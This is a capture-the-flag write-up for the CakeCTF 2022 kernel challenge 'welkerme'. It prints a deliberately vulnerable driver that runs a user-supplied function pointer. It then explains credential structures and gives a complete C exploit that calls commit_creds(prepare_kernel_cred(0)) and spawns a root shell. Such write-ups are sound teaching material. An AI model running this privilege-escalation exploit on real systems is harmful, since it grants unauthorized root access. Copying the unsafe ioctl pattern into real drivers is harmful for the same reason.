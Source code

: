 ```yaml
---
title: Welkerme
readtime: true
date: 2022-09-05
tags: [kernel,pwn]
---
```

### Attachments : [welkerme.tar.gz](https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/welkerme/welkerme_afcc40e7baa18649730945cde6475354.tar.gz) , [compress.sh](https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/welkerme/compress.sh)
<br>

First of all, let's have a look on the source code of the driver.
```c
#include <linux/cdev.h>
#include <linux/fs.h>
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/random.h>
#include <linux/slab.h>
#include <linux/uaccess.h>

MODULE_LICENSE("GPL");
MODULE_AUTHOR("ptr-yudai");
MODULE_DESCRIPTION("welkerme - CakeCTF 2022");

#define DEVICE_NAME "welkerme"
#define CMD_ECHO 0xc0de0001
#define CMD_EXEC 0xc0de0002

static int module_open(struct inode *inode, struct file *filp) {
  printk("'module_open' called\n");
  return 0;
}

static int module_close(struct inode *inode, struct file *filp) {
  printk("'module_close' called\n");
  return 0;
}

static long module_ioctl(struct file *filp,
                         unsigned int cmd,
                         unsigned long arg) {
  long (*code)(void);
  printk("'module_ioctl' called with cmd=0x%08x\n", cmd);

  switch (cmd) {
    case CMD_ECHO:
      printk("CMD_ECHO: arg=0x%016lx\n", arg);
      return arg;

    case CMD_EXEC:
      printk("CMD_EXEC: arg=0x%016lx\n", arg);
      code = (long (*)(void))(arg);
      return code();

    default:
      return -EINVAL;
  }
}

static struct file_operations module_fops = {
  .owner   = THIS_MODULE,
  .open    = module_open,
  .release = module_close,
  .unlocked_ioctl = module_ioctl
};

static dev_t dev_id;
static struct cdev c_dev;

static int __init module_initialize(void)
{
  if (alloc_chrdev_region(&dev_id, 0, 1, DEVICE_NAME))
    return -EBUSY;

  cdev_init(&c_dev, &module_fops);
  c_dev.owner = THIS_MODULE;

  if (cdev_add(&c_dev, dev_id, 1)) {
    unregister_chrdev_region(dev_id, 1);
    return -EBUSY;
  }

  return 0;
}

static void __exit module_cleanup(void)
{
  cdev_del(&c_dev);
  unregister_chrdev_region(dev_id, 1);
}

module_init(module_initialize);
module_exit(module_cleanup);
```

This is the source code of a kernel module. Inserting or loading the module into the kernel creates a device (file) at `/dev/welkerme`. We can interact with the driver using `ioctl`. Calling `ioctl` with the command `CMD_EXEC` i.e `0xc0de0002` would call an arbitrary function pointer supplied by the user as `ioctl` arg. 

```c
case CMD_EXEC:
      printk("CMD_EXEC: arg=0x%016lx\n", arg);
      code = (long (*)(void))(arg);
      return code();
```


Before actually doing something, let's have a look on some core concepts related to privilege escalation.

### task_struct
This is the Process Control Block and stores all the information needed by a process. Every task has a `task_struct` object living in memory. 

```c
struct task_struct {
    volatile long state;            // process state (running, stopped, ...)
    void *stack;                    // task's stack pointer
    int prio;                       // process priority
    struct mm_struct *mm;           // memory address space
    struct files_struct *files;     // open file information
    const struct cred *cred;        // credentials
  // ...
};

struct cred {
    // .
    // .
    // .
    kuid_t  uid;        /* real UID of the task */
    kgid_t  gid;        /* real GID of the task */
    kuid_t  suid;       /* saved UID of the task */
    kgid_t  sgid;       /* saved GID of the task */
    kuid_t  euid;       /* effective UID of the task */
    kgid_t  egid;       /* effective GID of the task */
    // .
    // .
    // .
};
```
The `cred` struct stores information about the owner, capabilities,etc. of a process. Privilege escalation is achieved via changing `current_task->cred->euid` to 0. (Might need to change some other id's depending on situation). The following code will do this for us!
```c
commit_creds(prepare_kernel_cred(0));
```
`prepare_kernel_cred` prepares a set of credentials for a kernel service which is committed by passing its return value as an argument to the function `commit_creds`.

Cool, not let's find out the address of `prepare_kernel_cred` and `commit_creds`. To do this, we need to read `/proc/kallsyms` by booting into the kernel as root. Run `debug.sh`, provided by the author. 
```sh
/ # cat /proc/kallsyms | grep prepare_kernel_cred
ffffffff810726e0 T prepare_kernel_cred

/ # cat /proc/kallsyms | grep commit_creds
ffffffff81072540 T commit_creds
```
Let's write a helper function for calling `commit_creds(prepare_kernel_cred(0))`
```c
void getRoot(){
    void* (*prepare_kernel_cred)(int) = 0xffffffff810726e0;
    void (*commit_creds)(void*) = 0xffffffff81072540;
    commit_creds(prepare_kernel_cred(0));
}
```
After that, we only need to call `ioctl` and supply a pointer to the function `getRoot`

```
ioctl(fd, CMD_EXEC, &getRoot);
system("/bin/sh");
```
Complete exploit:
```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <unistd.h>

#define CMD_ECHO 0xc0de0001
#define CMD_EXEC 0xc0de0002

void getRoot(){
   void* (*prepare_kernel_cred)(int) = (void*)0xffffffff810726e0;
    void (*commit_creds)(void*) = (void*)0xffffffff81072540;
    commit_creds(prepare_kernel_cred(0));
}

int main(void) {
  int fd = open("/dev/welkerme",O_RDWR);
  if(fd==-1){
    perror("open");
    exit(1);
  }

  ioctl(fd, CMD_EXEC, &getRoot);
  system("/bin/sh");
  close(fd);
  return 0;
}

```
Compile, deliver and run this exploit to escalate privileges to the root!
<img  src="https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/images/welkerme_1.png"/>

### References
<a href="https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/">https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/</a>
